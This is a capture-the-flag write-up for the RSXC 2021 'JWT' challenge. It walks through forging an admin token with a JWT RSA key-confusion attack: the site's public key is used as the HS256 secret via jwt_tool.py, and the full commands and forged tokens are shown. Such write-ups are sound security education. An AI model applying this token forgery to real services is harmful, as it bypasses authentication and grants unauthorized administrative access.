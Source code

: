 # 14 - JWT

> Have you heard about the secure information sharing standard JWT? It can sometimes be a little confusing, but I think we got it all figured out.
> 
> http://rsxc.no:20014

---

Let's look at the website:

![](00.png "")

A `test`-account is listen on the login page. And there is also an `admin`-account with no password. Let's log in using the `test`-account.

![](01.png "")

We're in some kind of portal and I guess we don't have any notes...

Looking in the footer in the portal after logging in we can see a link: "Verify your key". Looks like it links to a public key, probably the key used to verify the `JWT`. Let's download it:

```bash
$ wget http://rsxc.no:20014/jwtRS256.key.pub
```

So at this point it's pretty obvious that we're going to have to tamper with the `JWT` to gain `admin` access. Not a thing I've been playing around much with, mostly just been reading about some of the vulnerabilities out there.

I found some online tools to inspect and modify `JWT`s, but they were all so limited. So I found `jwt_tool.py` and used that to play around with the `JWT`.

So here's the first look at the `JWT` taken from the `jwt`-cookie:

```bash
$ ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.GU72t7mfy31jMvyY7hSinJBtAntSqjeuqJa6el2PGPaq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbylSxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lXp1TQQj6ISTwzeBNAUlv4VXJ11G-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf1aExd37QhTUts8IE11ak3To8TDnQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMKuBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_dUk0x43A8Meb5Xe2TdyIOkhoQPHTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtlGwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvAY2XhifJZArCpXsRiyoSdjB5oJVeDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYkbn8O7lXfaxoe8us-IKN5wCwNBp82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpodAExfiwEs28DCkKf9y5uV6fHJohX1Bo31JdghbsgPufM_z3GD1HSfBaMUpUSO6vJME

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "RS256"

Token payload values:
[+] username = "test"
```

We can see that the `JWT` is signed using the `RS256` algorithm and that the `username` is set to `test`. Now we need to alter the token.

I struggled so much with this one and was pulling my hair! I tried the `RSA Key Confusion (CVE-2016-5431)` attack so many times and must have been doing something wrong every time... 🤦‍♂️ Then I started going down multiple rabbit holes. I even solved "JWT 2" from day 15 before this one. "JWT 2" was way easier for me! 😆

So, after learning a ***LOT*** about `JWT` (which is awesome!), and taking a long break I just basically started from scratch.

I grabbed the `JWT` from the `jwt`-cookie again and I used the following command to exploit the `RSA Key Confusion` vulnerability. This changes the signing algorithm from `RS256` to `HS256` and signs the `JWT` with the public key we downloaded earlier.

```
$ ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.GU72t7mfy31jMvyY7hSinJBtAntSqjeuqJa6el2PGPaq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbylSxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lXp1TQQj6ISTwzeBNAUlv4VXJ11G-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf1aExd37QhTUts8IE11ak3To8TDnQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMKuBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_dUk0x43A8Meb5Xe2TdyIOkhoQPHTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtlGwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvAY2XhifJZArCpXsRiyoSdjB5oJVeDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYkbn8O7lXfaxoe8us-IKN5wCwNBp82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpodAExfiwEs28DCkKf9y5uV6fHJohX1Bo31JdghbsgPufM_z3GD1HSfBaMUpUSO6vJME -X k -pk ~/ctf-rsxc-2021/14/jwtRS256.key.pub

File loaded: /home/hag/ctf-rsxc-2021/14/jwtRS256.key.pub
jwttool_bc32d29c22fbd4305d6a6f2485890b84 - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.DFCif6k8et5YtuZThSkXxjlwPfbioF4Zi-ZWPdtqVMo
```

Now we take a look at the newly signed token:

```bash
$ ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.DFCif6k8et5YtuZThSkXxjlwPfbioF4Zi-ZWPdtqVMo

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "HS256"

Token payload values:
[+] username = "test"
```

Looks good, the `alg`-field is now set to `HS256`. If the server implementation is exploitable, we should be able to use the new token just like the original one. Let's try!

I copied the `JWT`: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.DFCif6k8et5YtuZThSkXxjlwPfbioF4Zi-ZWPdtqVMo` into the `jwt`-cookie and refreshed the `http://rsxc.no:20014/portal.php`-page.

![](02.png "")

We're still logged in! That's a great sign. Ok, so now we try to change the `username`-field to `admin`:

I think this is where I messed up earlier. I was trying to change the `username`-field ***AFTER*** I did the exploit and it seems like `jwt_tool.py` doesn't like that. Probably sinde the `alg`-field has already been changed to `HS256`. So I needed to first tamper with the original token and set the `username`-field to `admin`. Then run the command with the `-X k -pk ~/ctf-rsxc-2021/14/jwtRS256.key.pub` parameters again.

Here's the full command history:

```bash
$ ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.GU72t7mfy31jMvyY7hSinJBtAntSqjeuqJa6el2PGPaq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbylSxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lXp1TQQj6ISTwzeBNAUlv4VXJ11G-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf1aExd37QhTUts8IE11ak3To8TDnQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMKuBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_dUk0x43A8Meb5Xe2TdyIOkhoQPHTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtlGwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvAY2XhifJZArCpXsRiyoSdjB5oJVeDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYkbn8O7lXfaxoe8us-IKN5wCwNBp82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpodAExfiwEs28DCkKf9y5uV6fHJohX1Bo31JdghbsgPufM_z3GD1HSfBaMUpUSO6vJME

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "RS256"

Token payload values:
[+] username = "test"

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

$ ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.GU72t7mfy31jMvyY7hSinJBtAntSqjeuqJa6el2PGPaq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbylSxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lXp1TQQj6ISTwzeBNAUlv4VXJ11G-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf1aExd37QhTUts8IE11ak3To8TDnQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMKuBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_dUk0x43A8Meb5Xe2TdyIOkhoQPHTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtlGwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvAY2XhifJZArCpXsRiyoSdjB5oJVeDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYkbn8O7lXfaxoe8us-IKN5wCwNBp82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpodAExfiwEs28DCkKf9y5uV6fHJohX1Bo31JdghbsgPufM_z3GD1HSfBaMUpUSO6vJME -T

Original JWT:

====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] typ = "JWT"
[2] alg = "RS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] username = "test"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of username is: test
Please enter new value and hit ENTER
> admin
[1] username = "admin"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_21f54836cb3daf1f11e9e31c533d1cbb - Tampered token:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.GU72t7mfy31jMvyY7hSinJBtAntSqjeuqJa6el2PGPaq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbylSxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lXp1TQQj6ISTwzeBNAUlv4VXJ11G-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf1aExd37QhTUts8IE11ak3To8TDnQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMKuBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_dUk0x43A8Meb5Xe2TdyIOkhoQPHTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtlGwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvAY2XhifJZArCpXsRiyoSdjB5oJVeDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYkbn8O7lXfaxoe8us-IKN5wCwNBp82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpodAExfiwEs28DCkKf9y5uV6fHJohX1Bo31JdghbsgPufM_z3GD1HSfBaMUpUSO6vJME

$ ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.GU72t7mfy31jMvyY7hSinJBtAntSqjeuqJa6el2PGPaq36hkZtn8fVo8JEgv7hnEdOHkibVLz9MLUca12yLmbylSxl-Nh2_pMf2s03JBsKs7oIJeBKjj7Pw4lXp1TQQj6ISTwzeBNAUlv4VXJ11G-mPFKwYxTOQg7IX0FxyGMlGbLKoe3TXbw7trXwXevC9O_q_cxHRFMINg9vPAATKI0_PfMJPGBdewILLf1aExd37QhTUts8IE11ak3To8TDnQZ14h14evccnWfVp8sQOFo81Rlp5r1j3WBQnaEsYhVMKuBgW2osceqgFG8ABIYj8eF7vtRzaJUMTVe_dUk0x43A8Meb5Xe2TdyIOkhoQPHTZ3BYxLX4pW_yrjjPSAWSfCAEm07fqYc4tP7IXvZ7rtlGwq_eMoBotGj8KJAI1FqAc1kh6fC0KdQvvAY2XhifJZArCpXsRiyoSdjB5oJVeDlsjyQ4HUcgfn8Yn0sEdC6tqyATIAMMWaGMDb54Iw0NX7F4P2VrCeZ75A3K-patffZFxyssqeS-rMYkbn8O7lXfaxoe8us-IKN5wCwNBp82CSU0qR8U2iWU4Or22kNBRFuVV5sr2huMkIf1dodVmpodAExfiwEs28DCkKf9y5uV6fHJohX1Bo31JdghbsgPufM_z3GD1HSfBaMUpUSO6vJME -X k -pk ~/ctf-rsxc-2021/14/jwtRS256.key.pub

Original JWT:

File loaded: /home/hag/ctf-rsxc-2021/14/jwtRS256.key.pub
jwttool_db315704a470c7b7be7caefc8f0125dc - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.gERmL-_S0FkZDAbIE6zrYSIP2MKc3Mrh5jxOWkM8Gyw
```

This should be our final token with admin rights; `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.gERmL-_S0FkZDAbIE6zrYSIP2MKc3Mrh5jxOWkM8Gyw`.

Let's copy, paste and reload:

![](03.png "")

Finally! 😎

## Solution

The flag is: `RSXC{You_have_to_remember_to_limit_what_algorithms_are_allowed}`
